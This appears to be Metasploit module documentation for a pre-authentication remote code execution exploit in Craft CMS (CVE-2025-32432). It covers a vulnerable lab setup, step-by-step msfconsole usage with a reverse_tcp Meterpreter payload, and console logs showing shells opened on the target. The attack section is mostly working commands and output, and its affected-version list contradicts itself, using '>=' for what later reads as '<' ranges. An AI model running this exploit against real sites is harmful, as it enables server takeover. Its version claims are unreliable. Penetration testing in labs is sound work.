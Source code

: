 ## Vulnerable Application

This Metasploit module exploits a Remote Code Execution vulnerability in Craft CMS.

The vulnerability lies in improper handling of image transformations, which can be exploited to
inject and execute arbitrary PHP code on the server via crafted HTTP requests.

---

### Affected Versions

- **3.x series**: `>= 3.9.15`
- **4.x series**: `>= 4.14.15`
- **5.x series**: `>= 5.6.17`

---

### Setting Up a Vulnerable Lab

To test this exploit, follow these steps to set up a vulnerable Craft CMS environment.

#### Docker Setup

Install a specific vulnerable version of Craft CMS:

```bash
mkdir exploit-craft && \
cd exploit-craft && \
    # Configure DDEV (https://ddev.com/) project for Craft CMS \
ddev config \
  --project-type=craftcms \
  --docroot=web \
  --create-docroot \
  --php-version="8.2" \
  --database="postgres:15" \
  --nodejs-version="20" && \
    # Create the DDEV project
ddev start -y && \
    # Create Craft CMS with the specified version
ddev composer create -y --no-scripts --no-interaction "craftcms/craft:5.0.0" && \
    # Install a vulnerable Craft CMS version
ddev composer require "craftcms/cms:5.5.0" \
  --no-scripts \
  --no-interaction --with-all-dependencies && \
    # Set the security key for Craft CMS
ddev craft setup/security-key && \
    # Install Craft CMS
ddev craft install/craft \
    --username=admin \
    --password=password123 \
    --email=admin@example.com \
    --site-name=Testsite \
    --language=en \
    --site-url='$DDEV_PRIMARY_URL' && \
ddev restart && \
    # Launch the project
echo 'Setup complete. Launching the project.' && \
ddev launch
```

---

## Verification Steps

1. Start the vulnerable Craft CMS instance using the steps above.
2. Launch `msfconsole`.
3. Use the module: `use exploit/linux/http/craftcms_preauth_rce_cve_2025_32432`.
4. Set `RHOSTS` to the target Craft CMS instance.
5. Configure additional options (`TARGETURI`, `SSL`, etc.) as needed.
6. Execute the exploit with the `run` command.
7. If successful, the module will execute the payload on the target.


## Options

The module has the following option:

- **ASSET_ID**: This option is required for older versions of Craft CMS, particularly in the 3.x series.
    It specifies the asset ID for the Craft CMS instance. For 3.x versions, this ID must be set correctly to exploit the vulnerability.

For example, if you are targeting a Craft CMS version from the `>= 3.0.0`, `< 3.9.14`, make sure to specify the correct `ASSET_ID`.
This is necessary for successful exploitation when dealing with these versions.

Craft CMS uses the notion of an "Asset" to manage files and media such as images and documents; each asset has a unique ID.
This module does not perform bruteforcing of asset IDs to avoid noisy and inefficient exploitation attempts.


## Scenarios

#### Successful Exploitation Against Craft CMS 5.5.0

**Setup**:

- Local Craft CMS instance with a vulnerable version (e.g., `5.5.0`).
- Metasploit Framework.

**Steps**:

To successfully exploit the Craft CMS vulnerability using this Metasploit module, follow these steps:

1. Start `msfconsole`:
```bash
msfconsole
```

2. Load the module:
```bash
use exploit/linux/http/craftcms_preauth_rce_cve_2025_32432
```

3. Set the `RHOSTS` option to the target Craft CMS instance, for example:
```bash
set RHOSTS exploit-craft.ddev.site
```

4. Configure other necessary options such as `TARGETURI`, `SSL`, and `RPORT` if required. By default:
   - `RPORT` is set to `80`.
   - `TARGETURI` is set to `/`.

5. Set the payload for exploitation. For example:
```bash
set PAYLOAD cmd/linux/http/x64/meterpreter/reverse_tcp
```

6. Set the local listener address and port:
```bash
set LHOST 192.168.1.36
set LPORT 4444
```

7. Run the exploit:
```bash
exploit
```

**Expected Results**:

If the target is vulnerable, the module will successfully execute the payload and open a session, such as a Meterpreter shell:

##### For `ARCH_PHP`:

```bash
msf6 exploit(linux/http/craftcms_preauth_rce_cve_2025_32432) > options

Module options (exploit/linux/http/craftcms_preauth_rce_cve_2025_32432):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   ASSET_ID   60               yes       Existing asset ID
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.36     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PHP In-Memory

View the full module info with the info, or info -d command.
```

```bash
msf6 exploit(linux/http/craftcms_preauth_rce_cve_2025_32432) > exploit http://exploit-craft.ddev.site/
[*] Started reverse TCP handler on 192.168.1.36:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. License text detected
[*] Making initial request to push payload and get a CSRF token..
[*] Triggering code via assets/generate-transform
[*] Sending stage (40004 bytes) to 172.24.0.2
[*] Meterpreter session 3 opened (192.168.1.36:4444 -> 172.24.0.2:42740) at 2025-04-26 05:00:08 +0200

meterpreter > sysinfo
Computer    : exploit-craft-web
OS          : Linux exploit-craft-web 6.14.2-2-cachyos #1 SMP PREEMPT_DYNAMIC Thu, 10 Apr 2025 17:27:10 +0000 x86_64
Meterpreter : php/linux
```

##### For `ARCH_CMD`:

```bash
msf6 exploit(linux/http/craftcms_preauth_rce_cve_2025_32432) > set target 1
target => 1
msf6 exploit(linux/http/craftcms_preauth_rce_cve_2025_32432) > set payload cmd/linux/http/x64/meterpreter/reverse_tcp
payload => cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/craftcms_preauth_rce_cve_2025_32432) > exploit http://exploit-craft.ddev.site/
[*] Started reverse TCP handler on 192.168.1.36:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. License text detected
[*] Making initial request to push payload and get a CSRF token..
[*] Triggering code via assets/generate-transform
[*] Sending stage (3045380 bytes) to 172.24.0.2
[*] Meterpreter session 4 opened (192.168.1.36:4444 -> 172.24.0.2:47562) at 2025-04-26 05:02:02 +0200

meterpreter > sysinfo
Computer     : 172.24.0.2
OS           : Debian 12.10 (Linux 6.14.2-2-cachyos)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
